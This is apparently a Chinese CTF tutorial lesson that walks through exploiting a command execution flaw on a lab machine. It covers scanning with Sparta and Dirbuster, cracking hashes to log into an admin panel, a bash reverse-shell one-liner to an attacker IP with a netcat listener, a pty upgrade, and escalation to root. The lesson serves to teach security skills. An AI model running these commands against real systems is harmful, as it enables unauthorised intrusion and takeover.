# 2024年网络安全CTF全套教程：P17：15.17.命令执行（使用集成工具测试）🔧

在本节课中，我们将学习命令执行漏洞的实战利用流程。我们将从一个靶场环境出发，通过信息收集、漏洞发现、权限获取到最终提权，完整地演示如何利用命令执行漏洞获取系统最高权限并取得Flag。

## 命令执行漏洞概述

上一节我们介绍了命令执行漏洞的基本概念，本节中我们来看看如何在实际环境中发现并利用它。



命令执行漏洞是这样产生的。当应用需要调用一些外部程序去处理内容的情况下，就会用到一些执行系统命令的函数。如PHP语言中的`system()`、`exec()`、`shell_exec()`等。



当用户可以控制命令执行函数中的参数时，就可以注入恶意系统命令到正常的命令中，造成命令执行攻击。在调用这些函数执行系统命令的时候，如果没有把用户的输入进行严格的过滤，那么用户输入将作为系统命令参数拼接到对应的命令行中，造成命令执行，最终导致命令执行漏洞。





## 实验环境搭建

以下是本次实验的环境配置。

*   **攻击机**：Kali Linux，IP地址为`192.168.253.12`。
*   **靶场机器**：Linux系统，IP地址为`192.168.253.18`。

在CTF比赛中，我们的目标通常是获取靶场机器上的Flag值。我们将以此为目标进行测试。

## 信息收集与探测

进行测试时，第一步是信息探测。在之前的课程中，我们使用了很多命令行工具，如`nmap`以及`dirb`。现在我们将使用更高级的图形化集成工具`Sparta`来进行探测。

`Sparta`是一个具有用户界面的工具，它可以调用很多命令行工具，并将输出结果集成显示在框架中。下面我们使用该工具对靶场进行信息探测。

首先，回到Kali Linux，测试与靶场机器的连通性。

```
ping 192.168.253.18
```

如果收到ICMP响应，则证明网络连通。接下来，打开信息探测的集成工具。



```
sparta
```





工具打开后，将目标IP地址`192.168.253.18`输入到Sparta框架中，并添加到扫描范围。添加后，工具会自动调用Nmap等工具对靶场进行扫描。



扫描过程会调用多种工具，包括对端口的扫描、敏感文件探测以及网站快照抓取。扫描完成后，我们需要对结果进行分析。





## 扫描结果分析



从扫描结果中，我们发现靶场开放了以下关键端口。



*   **23端口**：Telnet服务。
*   **80端口**：HTTP服务。
*   **8080端口**：HTTP服务。

针对80和8080端口的HTTP服务，扫描结果显示其使用的编程语言为**Python 2.7.10**，并可能使用了Django框架。

接下来，我们对这些Web服务进行深入探测。在Sparta中选中80端口，右键可以选择多种操作。

以下是我们可以进行的操作步骤。

1.  **浏览器访问**：右键选择在浏览器中打开，查看网站首页。
2.  **框架识别**：使用右键的“WhatWeb”扫描功能，识别网站使用的技术栈，确认是Python Django框架。
3.  **端口服务扫描**：使用“Amap”或“Nmap”脚本进一步探测该端口的详细信息。
4.  **目录文件扫描**：使用“Nikto”进行漏洞扫描，或使用“Dirbuster”进行目录和文件暴力破解。



我们启动Dirbuster进行目录爆破。在设置中，选择Kali自带的字典文件（如`/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`），将线程调高，并将文件扩展名从默认的`.php`改为`.py`（因为目标使用Python），然后开始扫描。



在扫描过程中，我们实时分析发现的目录。



*   **`/admin/`**：这通常是网站的后台管理登录目录。
*   **`/dev/`**：Nikto扫描结果提示这是一个“可能非常有趣”的敏感目录。

我们立即在浏览器中访问这些目录。

*   访问`/admin/`，发现是一个登录界面，需要用户名和密码。
*   访问`/dev/`，发现一个页面，其中包含一个“Web Shell”的链接，但点击后提示需要服务器认证。

## 漏洞挖掘与利用

为了访问受保护的资源，我们需要寻找认证信息。查看网站首页和`/admin/`登录页面的源代码，未发现明显线索。



但在`/dev/`页面的源代码中，我们发现了多段哈希值。这些可能是密码的哈希形式。我们将这些哈希值保存到本地文件`hashes.txt`中。



接下来，使用在线哈希破解网站（如`https://crackstation.net/`）对这些哈希值进行破解。将哈希值粘贴到网站，输入验证码后开始破解。

破解成功后，我们获得了部分哈希对应的明文，例如`bob`和`bob1234`。结合在`/admin/`登录页面源代码中发现的用户名提示（如`nick`），我们尝试使用`nick`作为用户名，`bob1234`作为密码进行登录。

登录成功，我们进入了网站后台。

## 深入扫描与漏洞发现

进入后台后，我们拥有了会话Cookie。此时，需要使用更专业的漏洞扫描器对已认证的会话进行深度扫描。我们使用AWVS（Acunetix）进行扫描。

1.  在AWVS中新建站点目标，地址为`http://192.168.253.18`。
2.  开始完全扫描。

扫描完成后，AWVS会列出发现的漏洞，如敏感目录暴露、密码明文传输等。但大多数是中低危漏洞，无法直接获取权限。



关键点在于，AWVS的扫描基于我们提供的会话Cookie，因此它能扫描到后台的更多页面。我们在扫描结果中再次确认了`/dev/`目录，并且现在我们可以访问之前需要认证的Web Shell页面（`/dev/`下的某个链接）。



## 命令执行与反弹Shell



我们访问已认证的Web Shell页面。该页面声称是一个“安全的Web Shell”，并列出了一些允许执行的命令，但尝试执行`id`等命令时被限制。



我们的目标是绕过限制，在目标系统上执行任意命令。我们将利用该页面执行命令，让靶机向我们的攻击机反弹一个Shell连接。



以下是操作步骤。



1.  **在攻击机（Kali）上开启监听**：打开终端，使用Netcat监听一个端口（例如4444）。
    ```
    nc -nlvp 4444
    ```
2.  **在Web Shell页面执行反弹命令**：在命令输入框尝试执行反弹Shell的命令。由于可能存在过滤，我们需要尝试常见的Payload。例如，使用Bash反弹：
    ```
    bash -c 'bash -i >& /dev/tcp/192.168.253.12/4444 0>&1'
    ```
    注意：需要将IP地址替换为攻击机的实际IP。
3.  **升级终端**：当Netcat终端接收到连接后，我们获得了一个简单的Shell。为了获得一个更稳定的交互式终端，我们执行以下Python代码：
    ```
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```



执行成功后，我们获得了靶机上的一个交互式Bash Shell。使用`id`或`whoami`命令查看当前用户权限，发现并非root用户。



## 权限提升与获取Flag

获得初始Shell后，下一步是提权。我们首先在系统中寻找敏感文件或配置。

1.  **查看隐藏文件**：使用`ls -la`查看当前目录所有文件（包括隐藏文件）。
2.  **探索用户目录**：切换到其他用户目录（如`/home/`下的目录）查看。
3.  **分析可疑程序**：在探索过程中，发现`/home/`目录下某个用户文件夹内有一个隐藏的管理员目录（如`.admin`），其中包含一个可执行文件`customApp`和一个说明文件`note`。

查看说明文件`note`，提示该程序与获取root权限有关。我们使用`strings`命令查看`customApp`文件中的可打印字符串，寻找线索。

```
strings customApp
```

在输出中，我们发现一段看似混乱的英文句子，其中可能隐藏了密码。通过移除句子中的特定字符（如‘H’），我们拼接出了一段可能的密码。

4.  **尝试提权**：使用获得的密码，尝试切换到root用户。
    ```
    su -
    或
    sudo su
    ```
    输入破解出的密码。
5.  **验证权限**：提权成功后，使用`id`命令确认当前用户ID为0（root）。



获得root权限后，最后一步是寻找Flag。Flag通常存放在根目录`/root`下，或以`flag`、`proof.txt`等命名。



```
cd /root
ls
cat flag.txt
```



成功读取Flag内容。



## 总结

本节课中我们一起学习了命令执行漏洞的完整利用链。

1.  **信息收集**：使用Sparta等集成工具进行端口扫描、服务识别和目录爆破。
2.  **漏洞发现**：通过分析页面源代码、破解哈希值获取后台凭证，登录系统后台。
3.  **漏洞利用**：在已认证的后台中找到存在命令执行功能的点，绕过限制，构造Payload让靶机反弹Shell到攻击机。
4.  **权限提升**：在获得的Shell中，通过查找系统内的敏感文件、分析字符串信息，找到提权密码，最终获取root权限。
5.  **获取目标**：在root目录下找到并读取Flag值。



在真实的CTF比赛和渗透测试中，命令执行漏洞往往伴随着各种过滤机制，选手需要灵活运用编码、拼接、使用特殊变量等技巧进行绕过。本节课程提供了一个基础而完整的实战流程，帮助你理解如何将知识点串联起来解决实际问题。